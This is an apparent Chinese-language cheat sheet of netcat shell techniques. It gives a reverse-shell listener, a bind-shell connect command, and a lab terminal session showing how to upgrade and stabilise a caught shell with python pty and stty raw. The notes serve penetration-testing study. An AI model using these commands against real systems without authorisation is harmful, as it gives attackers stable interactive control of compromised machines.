 # Netcat

## 反向 SHELL

```shell
$ nc -lvnp <port-number>
```

## 绑定 SHELL

```shell
nc <target-ip> <chosen-port>
```

## 稳定 NC SHELL

> netcat SHELL 在按下 Ctrl+C 时通常会终结当前 SHELL 会话
>
> * 弊端： 不知道怎么关

```shell
┌──(jtz㉿JTZ)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.18.4.251] from (UNKNOWN) [10.10.40.0] 40816
python3 -c 'import pty;pty.spawn("/bin/bash")'  # 获取交互 SHELL
shell@linux-shell-practice:~$ export TERM=xterm
export TERM=xterm
shell@linux-shell-practice:~$ ^Z  # Ctrl+Z
[1]+  Stopped                 nc -nvlp 4444

┌──(jtz㉿JTZ)-[~]
└─$ stty raw -echo; fg
nc -nvlp 4444

shell@linux-shell-practice:~$ ^C
shell@linux-shell-practice:~$
```
